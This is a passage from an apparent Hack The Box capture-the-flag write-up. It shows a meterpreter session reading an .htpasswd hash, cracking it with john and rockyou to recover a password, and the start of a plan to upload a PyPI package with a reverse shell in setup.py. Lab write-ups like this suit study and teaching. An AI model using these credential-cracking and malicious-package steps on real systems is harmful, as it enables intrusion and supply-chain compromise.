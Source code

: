     :::text
    meterpreter > ls
    Listing: /var/www/pypi.sneakycorp.htb
    =====================================

    Mode              Size  Type  Last modified              Name
    ----              ----  ----  -------------              ----
    100644/rw-r--r--  43    fil   2020-05-15 14:29:53 -0400  .htpasswd
    40770/rwxrwx---   4096  dir   2020-08-07 07:12:52 -0400  packages
    40755/rwxr-xr-x   4096  dir   2020-05-14 18:25:43 -0400  venv

    meterpreter > cat .htpasswd
    pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/

We run `john` and the `rockyou` dictionary on it.

    :::text
    $ john hash -w=~/tools/password_lists/rockyou.txt --fork=8
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
    Use the "--format=md5crypt-long" option to force loading these as that type instead
    Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
    Use the "--format=md5crypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
    Warning: OpenMP was disabled due to --fork; a non-OpenMP build may be faster
    Node numbers 1-8 of 8 (fork)
    Press 'q' or Ctrl-C to abort, almost any other key for status
    4 0g 0:00:00:05 5.58% (ETA: 14:16:12) 0g/s 19731p/s 19731c/s 19731C/s jeanix..jbhunt
    soufianeelhaoui  (pypi)

## PyPi

This new credentials set allows us to access the [PyPi](https://pypi.org/)
server located at
[http://pypi.sneakycorp.htb:8080/](http://pypi.sneakycorp.htb:8080/).

I had never made a Python package, neither use that in order to get a reverse
shell. A read a few [article about make and uploading package to pypi](https://medium.com/@joel.barmettler/how-to-upload-your-python-package-to-pypi-65edc5fe9c56).

We then construct a specific package with a reverse shell code in `setup.py`.
The structure of the package is the following.

    :::text
    package
    ├── build
    │   └── lib.linux-x86_64-2.7
    │       └── plop
    │           ├── __init__.py
    │           └── plop.py
    ├── dist
    │   └── plop-0.3.tar.gz
    ├── LICENSE.txt
    ├── MANIFEST
    ├── plop
    │   ├── __init__.py
    │   └── plop.py
    ├── plop.egg-info
    │   ├── dependency_links.txt
    │   ├── PKG-INFO
    │   ├── SOURCES.txt
    │   └── top_level.txt
    ├── README
    ├── setup.cfg
    └── setup.py

